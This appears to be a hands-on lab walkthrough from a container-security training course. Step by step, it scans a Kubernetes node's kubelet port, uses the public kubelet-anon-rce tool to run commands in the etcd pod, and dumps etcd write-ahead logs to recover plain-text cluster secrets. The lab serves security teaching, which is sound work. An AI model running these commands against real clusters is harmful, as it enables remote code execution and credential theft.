 # **Attacking a K8s Kubelet**

---

### **Lab Image : Kubernetes**

---

#### Step 1:

* Navigate to the `Kubelet Attack` directory on the provisioned server.

```
cd /root/container-training/Kubernetes/Kubelet-Attack
```

* Create a few secrets on the k8s cluster

```commandline
kubectl create ns secret

kubectl create -f secrets.yml

kubectl -n secret get secrets
```

### *Our objective is to compromise the `kubelet`, and steal all configs and secrets by gaining access to `etcd`.*

---

#### Step 2:

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Run an Nmap Scan on the provisioned server to get the list of port and services.

```commandline
# We're running scan against a single port to save some time, but this might take a while
nmap <IP> -sV -p 10250
```

---

#### Step 3:

* Once it's identified that port `10250` is open, try accessing the following URLs on the browser and observe the results

```commandline
https://<serverip>:10250/metrics

https://<serverip>:10250/pods

https://<serverip>:10250/runningpods/
```

* Fetch the `etcd` pod name from the list of running pods

* Using [`kubelet-anon-rce.py`](https://github.com/serain/kubelet-anon-rce), let's gain access to the `etcd` pod and run a few commands.

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /etc/kubernetes/pki/etcd/"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /var/lib/etcd/member/wal/"
```

---

#### Step 4:

* From the `etcd` pod, let's dump all the data!

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000000-0000000000000000.wal" >> etcd_dump1.txt

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000001-00000000000102aa.wal" >> etcd_dump2.txt
```

### *It can be observed that all data is stored in plain text!!*

---

#### Step 5:

* Delete all the secrets created in *Step 1* by deleting the `secret` namespace

```commandline
kubectl delete ns secret
```

---

### Reading Material/References:

* https://github.com/serain/kubelet-anon-rce

* https://labs.mwrinfosecurity.com/blog/attacking-kubernetes-through-kubelet/

* https://jakubbujny.com/2018/09/02/what-stores-kubernetes-in-etcd/

* https://coreos.com/etcd/docs/latest/dev-guide/interacting_v3.html

* https://github.com/etcd-io/etcd/blob/7f7e2cc79d9c5c342a6eb1e48c386b0223cf934e/Documentation/admin_guide.md
